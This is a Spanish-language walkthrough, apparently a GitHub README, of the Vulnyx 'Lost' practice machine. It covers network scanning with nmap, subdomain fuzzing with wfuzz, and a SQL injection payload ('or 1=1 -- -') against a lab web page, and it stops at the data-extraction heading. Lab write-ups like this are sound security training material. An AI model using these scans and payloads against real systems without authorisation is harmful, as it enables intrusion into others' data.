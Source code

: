 # Vulnyx - Lost

## Escaneo de Red y Descubrimiento de Servicios

Se realizó un escaneo de red y descubrimiento de servicios en el host "192.168.200.24" utilizando las siguientes herramientas:

```bash
arp-scan -I eth0 --localnet
(IP-Victima)
nmap -p 22,80 -sS -sC -sV -n -Pn 192.168.200.24 -oN nmap
```

Los resultados indican la presencia de servicios SSH y HTTP con detalles sobre las versiones y el título de la página web.

```plaintext
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
http-title: lost.nyx
```

## Enumeración de Subdominios y Configuración de /etc/hosts

Se enlazo la IP-victima con "lost.nyx" en "/etc/hosts" y se procedió a la enumeración de subdominios utilizando wfuzz y se identificó un subdominio llamado "dev".

```bash
wfuzz --hc=404 --hl=34 -w /usr/share/dnsrecon/subdomains-top1mil-20000.txt -H 'host: FUZZ.lost.nyx' -u 192.168.200.24
```

Al encontrar "dev" como un subdominio, se agregó la entrada correspondiente en el archivo "/etc/hosts".

## Exploración del Blog y Descubrimiento de una Vulnerabilidad SQL

Se encontró una sección llamada "passengers list" en el blog, que permite acceder a información mediante IDs.

```plaintext
http://dev.lost.nyx/passengers.php?id=1
```

Después de detectar un error de SQL al ingresar una comilla (') en el parámetro, se sospecha de una vulnerabilidad SQL. Se realizó una inyección SQL con éxito:

```plaintext
http://dev.lost.nyx/passengers.php?id=1 or 1=1 -- -
```

## Extracción de Datos de la Base de Datos
